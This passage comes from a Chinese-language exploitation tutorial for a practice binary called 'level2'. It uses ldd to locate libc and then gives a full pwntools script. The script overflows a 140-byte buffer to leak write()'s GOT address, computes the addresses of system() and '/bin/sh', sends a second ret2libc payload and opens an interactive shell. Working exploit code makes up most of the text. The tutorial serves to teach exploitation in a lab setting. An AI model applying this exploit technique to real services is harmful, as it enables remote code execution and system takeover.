 使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址：

```
$ldd level2 
    linux-gate.so.1 =>  (0xb7781000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c4000)
    /lib/ld-linux.so.2 (0xb7782000)
$ cp /lib/i386-linux-gnu/libc.so.6 libc.so

```

最后exp如下：

```
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so')
elf = ELF('level2')

#p = process('./level2')
p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive()

```
